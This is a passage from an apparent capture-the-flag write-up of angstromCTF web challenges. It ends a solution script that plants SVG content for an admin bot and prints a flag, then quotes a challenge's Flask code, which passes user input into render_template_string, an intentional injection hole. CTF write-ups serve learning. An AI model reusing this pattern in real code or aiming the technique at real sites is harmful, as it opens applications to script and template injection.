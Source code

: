 ```python

put_data = {
    'id': my_card_id,
    'type[]': ['image/svg+xml'],
    'svg': '',
    'content': content
}

r = requests.put(url, data=put_data)

if r.text == 'ok':
    print(f'#3: Go to "https://admin-bot.actf.co/hallmark" and put "{url}?id={my_card_id}"')
else:
    print('Error')
```

🏁 _actf{the_adm1n_has_rece1ved_y0ur_card_cefd0aac23a38d33}_{: .spoiler}

## brokenlogin

> _Talk about a garbage website... I don't think anybody's been able to log in yet! If you find something, make sure to let the admin know._<br>
> _https://brokenlogin.web.actf.co/, https://admin-bot.actf.co/brokenlogin_<br>
> _Attachments: app.py, brokenlogin.js_

From `app.py` we know that `message` argument can be printed if we pass it to the main page, but only if its content is no longer than 25 characters.

```python
# [...]

indexPage = """
<html>
    <head>
        <title>Broken Login</title>
    </head>
    <body>
        <p style="color: red; fontSize: '28px';">%s</p>
        <p>Number of failed logins: {% raw %} {{ fails }} {% endraw %}</p>
        <form action="/" method="POST">
            <label for="username">Username: </label>
            <input id="username" type="text" name="username" /><br /><br />

            <label for="password">Password: </label>
            <input id="password" type="password" name="password" /><br /><br />

            <input type="submit" />
        </form>
    </body>
</html>
"""

@app.get("/")
def index():
    global fails
    custom_message = ""

    if "message" in request.args:
        if len(request.args["message"]) >= 25:
            return render_template_string(indexPage, fails=fails)

        custom_message = escape(request.args["message"])

    return render_template_string(indexPage % custom_message, fails=fails)
```
